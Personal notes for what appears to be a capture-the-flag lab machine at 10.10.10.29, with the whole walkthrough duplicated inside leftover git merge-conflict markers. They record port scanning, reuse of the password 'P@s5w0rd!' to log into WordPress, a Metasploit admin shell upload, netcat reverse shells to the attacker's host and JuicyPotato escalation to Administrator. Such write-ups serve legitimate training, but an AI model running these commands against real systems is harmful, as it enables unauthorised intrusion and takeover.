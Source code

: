 <<<<<<< HEAD
- 10.10.10.29

- nmap for open ports
	- 80: http
		- Microsoft IIS
	- 3306: mysql
		- MySQL
	- no known vulns

- website
	- gobuster
		- → /wordpress, 		
	- on the site, some searches and inputs BUT
	- since it's wordpress - run possible vulns through metasploit

- metasploit the wordpress
	- use previous password (from Vaccine postrgre)
		- `postgres:P@s5w0rd!`
		- guess the login creds combo
	- use login site `/wordpress/wp-login.php`
	- `admin:P@s5w0rd!`
	- version 5.2.1
	- `use unix/webapp/wp_admin_shell_upload)`
		- fill out options
	- → meterpreter
		- change local dir `lcd /home/username/Downloads`
		- `cd C:/inetpub/wwwroot/wordpress/wp-content/uploads`
		- `upload nc.exe`
		- set up listener
		- run the shell from target `execute -f nc.exe -a "-e cmd.exe <HOME_IP> <PORT>"`
		- reverse shell - check

 - privilege escalation
	 - `sysinfo` in meterpreter
		 - Windows Server 2016
	 - upload JuicyPotato.exe
		 - `echo STARTC:\inetpub\wwwroot\wordpress\wp-content\uploads\nc.exe -e powershell.exe <HOME_IP> <PORT> > shell.bat`
	 - set up listener
	 - `JuicyPotato.exe -t * -p C:\inetpub\wwwroot\wordpress\wp-content\uploads\shell.bat -l 1337`
=======
- 10.10.10.29

- nmap for open ports
	- 80: http
		- Microsoft IIS
	- 3306: mysql
		- MySQL
	- no known vulns

- website
	- gobuster
		- → /wordpress, 		
	- on the site, some searches and inputs BUT
	- since it's wordpress - run possible vulns through metasploit

- metasploit the wordpress
	- use previous password (from Vaccine postrgre)
		- `postgres:P@s5w0rd!`
		- guess the login creds combo
	- use login site `/wordpress/wp-login.php`
	- `admin:P@s5w0rd!`
	- version 5.2.1
	- `use unix/webapp/wp_admin_shell_upload)`
		- fill out options
	- → meterpreter
		- change local dir `lcd /home/username/Downloads`
		- `cd C:/inetpub/wwwroot/wordpress/wp-content/uploads`
		- `upload nc.exe`
		- set up listener
		- run the shell from target `execute -f nc.exe -a "-e cmd.exe <HOME_IP> <PORT>"`
		- reverse shell - check

 - privilege escalation
	 - `sysinfo` in meterpreter
		 - Windows Server 2016
	 - upload JuicyPotato.exe
		 - `echo STARTC:\inetpub\wwwroot\wordpress\wp-content\uploads\nc.exe -e powershell.exe <HOME_IP> <PORT> > shell.bat`
	 - set up listener
	 - `JuicyPotato.exe -t * -p C:\inetpub\wwwroot\wordpress\wp-content\uploads\shell.bat -l 1337`
>>>>>>> ed86870e047cc27b656f2f20735dd248c5953b5d
	 - → you get Administrator